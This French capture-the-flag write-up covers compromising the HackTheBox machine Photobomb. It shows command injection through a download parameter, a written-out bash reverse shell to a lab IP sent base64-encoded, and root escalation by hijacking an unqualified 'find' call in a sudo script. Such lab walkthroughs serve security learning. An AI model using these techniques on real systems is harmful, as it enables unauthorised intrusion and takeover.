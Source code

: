 <h1 align="center">
  WriteUp de la box Photobomb
  <br>
</h1> 

Bonjour à toutes et tous, aujourd'hui on s'attaque à la machine Photobomb sur HackTheBox. 

C'est une machine classifiée facile, et nous allons voir que les démarches pour atteindre les deux flags sont relativement rapides (si l'on cherche aux bons endroits).

## Enumération

On commence par réaliser un NMAP afin de scanner les ports ouverts sur la machine : 

![image](https://user-images.githubusercontent.com/33124690/195099486-b77ad55d-e35f-4a74-bfea-d0e4a677d81e.png)

On s'aperçoit que seul le port 80 (HTTP) ainsi que le port 22 (SSH) sont ouverts. On obtient aussi le nom de domaine (photobomb.htb) qu'il faut ajouter dans notre ficher "/etc/hosts"

Lorsque l'on se rend sur le site, on se rend compte qu'il n'y a pas grand chose, c'est un site vitrine (d'apparence). 

![image](https://user-images.githubusercontent.com/33124690/195100699-d756413d-d18f-4b08-9fb7-203ba7989aef.png)

Un lien permet de se connecter pour accéder à une autre partie du site. Néanmoins, sans creds, impossible de se connecter, il va falloir trouver une solution. On peut quand même remarquer qu'en cas d'échec d'authentification, on est redirigé sur "/printers".

![image](https://user-images.githubusercontent.com/33124690/195103675-392f6fa7-ed1d-4be0-9de6-2e5de3c0514c.png)

On lance une énumération des "directories" avec gobuster en fond, en parralèle, on continue l'énumération à la main afin de voir si l'on peut trouver quelque chose d'intéressant.

![image](https://user-images.githubusercontent.com/33124690/195105567-1f95810a-096e-415f-9be4-2d3d1354bc33.png)

## Accès au "/printers"

Les résultats de gobuster ne seront pas très intéressants car toutes les pages que l'on trouve nécessite une authentification. Toujours étant qu'en inspectant le code source de la page, on s'aperçoit qu'un fichier JS est utilisé. En y accédant, on obtient des creds visiblement destinés au support technique du site web.

![image](https://user-images.githubusercontent.com/33124690/195106155-64a3d6f0-0ce7-4f7f-aa11-d58bd4662bd9.png)

Il suffit d'utiliser ces creds pour nous connecter ou tout simplement de c/v le lien ! :)

## Reverse Shell pour accéder à la machine

Maintenant que nous avons accès, nous pouvons continuer à énumérer le site. On remarque rapidement un bouton pour télécharger la photo : 

![image](https://user-images.githubusercontent.com/33124690/195107724-663aaefb-0c04-450d-b35c-cfd1a48ce5ee.png)

On lance Burp Suite afin d'étudier la requête qui est effectuée. 

![image](https://user-images.githubusercontent.com/33124690/195108047-908809d1-3394-4012-a25f-12703ab17c57.png)

On test plusieurs attaques comme du LFI sur la requète, rien ne fonctionne jusqu'au moment où on test les injections de commandes.
Comme on peut le voir ci-contre, il suffit d'ajouter "; {command}" à la suite d'un des trois paramètres pour que ce soit executé. 

![image](https://user-images.githubusercontent.com/33124690/195109920-3df43674-442e-49df-9c53-8e26194183dc.png)

Maintenant que nous avons une RCE sur le serveur web, il suffit de créer notre reverse shell et de l'envoyer afin d'avoir accès à la machine.

Dans un premier temps, un simple reverse shell "bash -i >& /dev/tcp/10.10.14.40/4242 0>&1" ne fonctionne pas, même en URL encodant (surement à cause des caractères spéciaux). On décide donc de le passer en base64 en faisant attention de n'avoir aucun "+".

![image](https://user-images.githubusercontent.com/33124690/195110748-47ec7bde-8672-4391-9993-daeaa0c8312a.png)

Puis, on passe notre payload dans la requète.

![image](https://user-images.githubusercontent.com/33124690/195113874-e1f8dc08-c42c-4b56-9e19-d572dd4d2e68.png)

Ainsi, on obtient un shell sur la machine pour récupérer le flag user.txt. On stabilise notre shell et on s'attaque au privesc !


## Escalation de privilège

On pourrait lancer Linpeas pour voir s'il y a des chemins de privesc rapide, mais simplement à l'aide d'un ```sudo -l``` on s'aperçoit que l'on peut lancer un script en temps que Root.

![image](https://user-images.githubusercontent.com/33124690/195114580-44b45d8f-1db3-4d1c-8b1b-0d7160f848ca.png)

```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Le script en question présente une vulnerabilité. En effet, "find" n'est pas défini avec son chemin absolu, on va pouvoir en abuser pour obtenir un shell root.

On créer un fichier bash sous le nom de find dans "/tmp". Ce dernier va copier bash et lui attribuer le setuid Root.

![image](https://user-images.githubusercontent.com/33124690/195116301-aedbe85b-4dbb-4991-801b-fce196d24aa7.png)

On oublie pas de "chmod +x" notre script find.

Maintenant, il suffit de changer le path de notre utilisateur (an ajoutant "/tmp:") et de lancer le script :D

![image](https://user-images.githubusercontent.com/33124690/195118038-967f6460-a179-44ed-999c-cefa2f902c17.png)

Et voilà ! 

![image](https://user-images.githubusercontent.com/33124690/195118182-d7881c4d-72f9-4887-87a3-895ca1ef5b4a.png)

J'espère que ce premier WriteUp vous aura plus, j'en referai peut être à l'avenir.
